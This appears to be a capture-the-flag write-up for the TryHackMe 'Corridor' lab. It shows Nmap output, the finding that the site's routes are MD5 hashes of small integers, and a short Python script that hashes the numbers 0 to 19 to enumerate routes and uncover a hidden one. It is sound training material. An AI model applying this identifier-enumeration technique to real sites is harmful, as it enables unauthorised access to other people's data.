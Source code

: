 # Corridor (THM)

- https://tryhackme.com/room/corridor
- March 8, 2023
- easy

---

## Enumeration

### Nmap

```
PORT     STATE    SERVICE       REASON      VERSION
80/tcp   open     http          syn-ack     Werkzeug httpd 2.0.3 (Python 3.10.2)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: Werkzeug/2.0.3 Python/3.10.2
|_http-title: Corridor
144/tcp  filtered news          no-response
1152/tcp filtered winpoplanmess no-response
1900/tcp filtered upnp          no-response
5988/tcp filtered wbem-http     no-response
9485/tcp filtered unknown       no-response
```

### HTTP

![](images/2023-03-08-18-35-37.png)

- by clicking the rooms, it redirects to something like this

![](images/2023-03-08-18-38-31.png)

- from view page source, extract all the routes

```
c4ca4238a0b923820dcc509a6f75849b
c81e728d9d4c2f636f067f89cc14862c
eccbc87e4b5ce2fe28308fd9f2a7baf3
a87ff679a2f3e71d9181a67b7542122c
e4da3b7fbbce2345d7772b0674a318d5
1679091c5a880faf6fb5e6087eb1b2dc
8f14e45fceea167a5a36dedd4bea2543
c9f0f895fb98ab9159f51fd0297e236d
45c48cce2e2d7fbdea1afc51c7c6ad26
d3d9446802a44259755d38e6d163e820
6512bd43d9caa6e02c990b0a82652dca
c20ad4d76fe97759aa27a0c99bff6710
c51ce410c124a10e0db5e4b97fc2af39
```

- it looks like md5 hashes
  ![](images/2023-03-08-18-43-46.png)

- They are just md5 hashes of numbers from 1,13

- try with 0

![](images/2023-03-08-18-54-40.png)

- here I wrote some python code.

```python
import hashlib
import requests

url = "http://10.10.50.100/"
s = requests.Session()

for i in range(0, 20):
    id_num = hashlib.md5(str(i).encode())
    id = id_num.hexdigest()
    r = s.get(url + id)
    print(f'[{i}] {r.url} -> {r.status_code} - {len(r.text)}')
```

- I found that number 0 has different lenght of responses, and from 1 to 13, they are same, after 13, it is 404 response.

---
